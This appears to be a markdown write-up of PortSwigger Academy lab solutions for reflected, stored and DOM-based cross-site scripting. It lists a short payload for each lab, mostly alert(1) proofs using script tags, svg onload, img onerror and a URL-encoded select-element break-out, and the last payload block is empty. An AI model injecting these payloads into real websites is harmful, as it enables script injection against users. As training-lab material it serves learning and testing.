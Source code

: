 # XSS 
- Author: [Mateusz Głuchowski](https://github.com/hue1337)
- Site: [PortSwigger Academy](https://portswigger.net)

## Lab: Reflected XSS into HTML context with nothing encoded

1. Payload:
    ```html
    <script>alert(1);</script>
    ```

## Lab: Stored XSS into HTML context with nothing encoded

1. Payload:
    ```html
    </p><script>alert(1);</script>
    ```

## Lab: DOM XSS in document.write sink using source `location.search`:

1. Payload:
    ```html
    "><svg onload=alert(1)>
    ```

## Lab: DOM XSS in innerHTML sink using source location.search
1. Payload:
    ```html
    </span><svg onload=alert(1)>

    or 

    <img src=1 onerror=alert(1)>
    ```

## Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

1. Payload:

    ```html
    '"><script>alert(1);</script>
    ```

## Lab: DOM XSS in document.write sink using source location.search inside a select element

1. Payload:
    ```html
    productId=2&storeId=%22%3e%3c%2foption%3e%3c%2fselect%3e%3cimg%20src%3d1%20onerror%3dalert(1)%3e
    ```

## Lab: DOM XSS in jQuery selector sink using a hashchange event

1. Payload: 
    ```html
    
    ```